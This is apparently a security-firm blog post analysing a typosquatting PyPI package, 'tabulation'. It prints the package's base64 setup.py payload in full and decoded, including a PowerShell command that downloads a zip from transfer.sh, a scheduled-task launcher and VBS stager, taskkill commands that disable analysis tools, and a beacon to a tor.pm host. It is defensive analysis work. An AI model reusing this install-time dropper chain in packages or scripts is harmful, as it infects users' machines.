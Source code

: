 ```yaml
---
publishDate: 2023-07-12T00:00:00Z
title: A Gap in the Armor
excerpt: Exploiting third party dependancies to bypass PyArmor obfuscation.
image: ~/assets/images/armor-henry-hustava-unsplash.jpg
category: Malware Analysis
tags:
  - malware
  - pyarmor
  - analysis
---
```


Before we begin, a gentle shoutout to Lockness Ko, our dynamic analysis specialist, for his assistance with the dynamic analysis portion of this particular malicious package.

On the 26th of June, a Python package named **tabulation** came across our malware feed. It displayed all the signs of being a malicious package-- executing a base64 string within the setup.py portion of the package, and squatting a fairly well known package, **tabulate** by utilizing it's README and Github pages in the metadata. As we do with all packages that are suspected to be malicious, we began an analysis. 

## The Payload

As mentioned, the payload contained a base64 encoded string that would execute upon the installation of the package. Nothing shockingly out of the ordinary or ground breaking here on the malware front, this is a common tactic, it's easy to detect, and this particular version was easy enough to reverse as well.

```python
exec(base64.b64decode("aW1wb3J0IHN1YnByb2Nlc3MsIG9zCmRlZiByKGMpOiA\
KICAgIHJlc3VsdCA9IHN1YnByb2Nlc3MuUG9wZW4oYywgc2hlbGw9VHJ1ZSwgc3Rka\
W49c3VicHJvY2Vzcy5QSVBFLCBzdGRvdXQ9c3VicHJvY2Vzcy5QSVBFLCBzdGRlcnI\
9c3VicHJvY2Vzcy5TVERPVVQsIGNsb3NlX2Zkcz1UcnVlKQogICAgb3V0cHV0ID0gc\
mVzdWx0LnN0ZG91dC5yZWFkKCkKZGVmIHIyKGMpOgogICAgc3VicHJvY2Vzcy5Qb3B\
lbihjLCBzaGVsbD1UcnVlLCBzdGRpbj1zdWJwcm9jZXNzLlBJUEUsIHN0ZG91dD1zd\
WJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJwcm9jZXNzLlNURE9VVCwgY2xvc2VfZmR\
zPVRydWUpCmlmIG9zLm5hbWUgPT0gIm50IjoKICAgIGlmIG5vdCBvcy5wYXRoLmV4a\
XN0cyhyIkM6L1Byb2dyYW1EYXRhL1VwZGF0ZXIiKToKICAgICAgICByKHIicG93ZXJ\
zaGVsbCAtY29tbWFuZCAkUHJvZ3Jlc3NQcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29ud\
GludWUnOyAkRXJyb3JBY3Rpb25QcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29udGludWU\
nOyBJbnZva2UtV2ViUmVxdWVzdCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgaHR0cHM6L\
y90cmFuc2Zlci5zaC9UVVVwUXJVdTlkL0luc3RhbGwuemlwIC1PdXRGaWxlICRlbnY\
6dG1wL2luc3QuemlwOyBFeHBhbmQtQXJjaGl2ZSAtRm9yY2UgLUxpdGVyYWxQYXRoI\
CRlbnY6dG1wL2luc3QuemlwIC1EZXN0aW5hdGlvblBhdGggQzovUHJvZ3JhbURhdGE\
7IFJlbW92ZS1JdGVtICRlbnY6dG1wL2luc3QuemlwIikKICAgICAgICBmcm9tIGRhd\
GV0aW1lIGltcG9ydCBkYXRldGltZSwgdGltZWRlbHRhOyB0ID0gKGRhdGV0aW1lLm5\
vdygpICsgdGltZWRlbHRhKG1pbnV0ZXM9MSkpLnN0cmZ0aW1lKCclSDolTScpCiAgI\
CAgICAgcjIoZidzY2h0YXNrcyAvQ3JlYXRlIC9TQyBPTkNFIC9TVCB7dH0gL1ROICJ\
VcGRhdGVyIiAvVFIgIkM6XFByb2dyYW1EYXRhXEluc3RhbGxcaW52aXMudmJzIicp"))
```

So let's unpack this a bit. As with most of these, you can simply swap the `exec` for a `print` and out will pop the 'obfuscated' payload.

```python
import subprocess, os
def r(c): 
    result = subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
    output = result.stdout.read()
def r2(c):
    subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
if os.name == "nt":
    if not os.path.exists(r"C:/ProgramData/Updater"):
        r(r"powershell -command $ProgressPreference = 'SilentlyContinue'; $ErrorActionPreference = 'SilentlyContinue'; Invoke-WebRequest -UseBasicParsing -Uri xxxx://transfer.sh/xxxx/Install.zip -OutFile $env:tmp/inst.zip; Expand-Archive -Force -LiteralPath $env:tmp/inst.zip -DestinationPath C:/ProgramData; Remove-Item $env:tmp/inst.zip")
        from datetime import datetime, timedelta; t = (datetime.now() + timedelta(minutes=1)).strftime('%H:%M')
        r2(f'schtasks /Create /SC ONCE /ST {t} /TN "Updater" /TR "C:\ProgramData\Install\invis.vbs"')
```

Now this is a little more exciting. As we can see, we use Powershell's `Invoke-WebRequest` to quietly curl down an **install.zip** file from transfer.sh and to unpack it into a known location. It then invokes the Windows Task Scheduler to execute **invis.vbs** a minute after the subprocess is executed. Presumably, this is to allow for the file to download and decompress. But what exactly do these files contain, and what is invis.vbs doing?

```vb
Set oShell = CreateObject ("Wscript.Shell") 
Dim strArgs
strArgs = "cmd /c pythonw C:\ProgramData\Install\inst.pyw"
oShell.Run strArgs, 0, false
```

This creates a WScript Shell, which invokes **inst.pyw**. We're now at Russian nesting dolls of staging. But bare with me, because this is where it gets interesting. As I said, the initial file dropped **installer.zip** was a ziparchive and decompressed during download. The file also contained the **pyarmor_runtime** and **inst.pyw** files. These, as you can likely glean by the name alone, are PyArmor obfuscated files. This presents a unique challenge, PyArmor unpackers are well documented running up to Python 3.10, but recent changes to the bytecode and opmaps in Python 3.11 have caused many of the ways these deobfuscators function to fail. And as anticipated, several off-the-shelf unpackers like Svenskithesource's [PyArmor-Unpacker](https://github.com/Svenskithesource/PyArmor-Unpacker) were ineffective at handling this new bytecode change.

## Dynamic Analysis

So with our static unpackers struggling to work through the PyArmor obfuscation, we shifted to dynamic analysis. I mentioned Lockness Ko earlier in the article; he was kind enough to lend a Dynamic Analysis sandbox for the next portion. We began as most dynamic analysis solutions do-- spinning up PCAP and packet sniffing software, turning on ProcMon and running the program. The first time we managed to get the program to run in the sandbox, Wireshark immediately died. A good indicator that we're dealing with something that's attempting to enumerate the virtual machine. We moved network monitoring out of the sandbox and tried again...

And not much happened. We killed the process and pulled up ProcMon to see if there was something we were missing, but we weren't catching a whole lot. So in the spirit of seeing if this was some sort of delayed execution, we went ahead and ran the file one more time and let it sit for what felt like an eternity. And we waited. And we waited. And at last, we had something. ProcMon started firing off system events for enumeration of the current environment.

```
"10:09:44.5260407 PM","WScript.exe","3396","Process Create","C:\Windows\System32\cmd.exe","SUCCESS","PID: 4292, Command line: ""C:\Windows\System32\cmd.exe"" /c pythonw C:\ProgramData\Install\inst.pyw"
"10:09:45.6561948 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 1188, Command line: pip install requests"
"10:09:52.1659818 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 2064, Command line: pip install cryptography"
"10:10:07.6860549 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\Wbem\wmic.exe","SUCCESS","PID: 1476, Command line: wmic process get name"
"10:10:08.4851339 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 1436, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im wireshark.exe"""
"10:10:08.4951144 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 4632, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im dumpcap.exe"""
"10:10:08.5035489 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 3844, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im processhacker.exe"""
"10:10:08.5120777 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe","SUCCESS","PID: 1052, Command line: powershell.exe get-process | format-table mainwindowtitle"
```

Now I'd like to draw some attention to several lines here.
`taskkill /f /im wireshark.exe` - The source of our dead Wireshark on the first run.
`pip install requests` and `pip install cryptography` will be very important very soon.
We can see the outbound beaconing in Wireshark, given that we've moved Wireshark outside of the virtual machine. We can see it calling to a **tor.pm** address in our PCAP's. Since we're not catching the events in process monitor, this must mean that ~~the call is coming from inside the house~~ the requests are being transmitted through Python. But what is this actually doing, what information is being communicated?

Well as previously mentioned, we saw **requests** and **cryptography** installed through subprocesses. So that gives us some good intuition about the kind of interface we might be dealing with for this information. Intuition dictated that hooking the **requests** POST API function might spill out the information we're looking for. So we did just that.

**requests/api.py**

```python
def post(url, data=None, json=None, **kwargs):
    with open("C:\Windows\Temp\post.txt", "a") as f:
        f.write(url, data, json, sep='\n')
    ...
```

Running this, as anticipated, caused any POSTs utilizing the Python Requests package to write themselves to a file. We went ahead and ran the script again and...

```
REQUEST
xxxx://xxxx.tor.pm/
{'1': 'gAAAAABkoRHTIO_HSkSBxDbFaarHWwX8T1qKIUgbuhaf0-294oY_TR1RuYFPVXYBkG5lQIKw2rRV7oPxL-CaKsiPerMKdwV5sUO1MEn3GZw3RToeSQXqvYo=', 
...}
```

And that's not shockingly helpful. However, we do have some excellent pretext for what this information might actually be! If you recall earlier, the **cryptography** package was installed during the execution of the malware. Fernet is a very common cryptography format used in Python, and more importantly, the `gAAAAAB`refers to a fairly fixed portion, the "fixed" timestamp. This allowed us to confirm that these were indeed Fernet encrypted payloads. For those unfamiliar with Fernet, it is a symmetric encryption algorithm utilizing a key. For our purposes, that is the brief of it. For those looking to read more, you can find a writeup on Fernet encryption in the [PYCA Cryptography documents](https://cryptography.io/en/latest/fernet/). Equipped with that information, we went ahead and enumerated the Cryptography package as well. Utilizing the same techniques we used in the requests modification, we hooked the `generate_key()` and `encrypt()` functions to also write their arguments to a file. So, for one final, time, we went ahead and ran the program, with all the appropriate functions hooked. And it worked perfectly!

```
========
model vbox harddisk  
==============
product  virtualbox  
==============
version  vbox- 1  
==============
name system idle process system  registrysmss.execsrss.exe  wininit.exeservices.exe  lsass.exe  svchost.exesvchost.exefontdrvhost.exe  svchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.execsrss.exe  winlogon.exe  fontdrvhost.exe  dwm.exe sihost.exe taskhostw.exe explorer.exe  shellexperiencehost.exeruntimebroker.exeruntimebroker.exeapplicationframehost.exe  svchost.exediscord.exediscord.exediscord.exediscord.exediscord.exediscord.exegooglecrashhandler.exe googlecrashhandler64.exe  procmon64.exe cmd.exe conhost.exepowershell.exechrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe cmd.exe conhost.exepythonw.exewmiprvse.exe  wmic.execonhost.exe
```

Quite underwhelmingly, this seems to enumerate running processes and user information and signal back to the server. There were no other signs of additional downloads or file drops.

## Summary

This is but one example of how we can effectively use some creative process hooking and know-how to cause cryptographic functions to spill their secrets when they're relying on external libraries and packages to do that transmission. Dynamic analysis can facilitate introspection into programs that might otherwise use heavy obfuscation, and Python's reputation as an interpreted language makes levying the base level libraries and infrastructure a breeze to enumerate obfuscated malware.
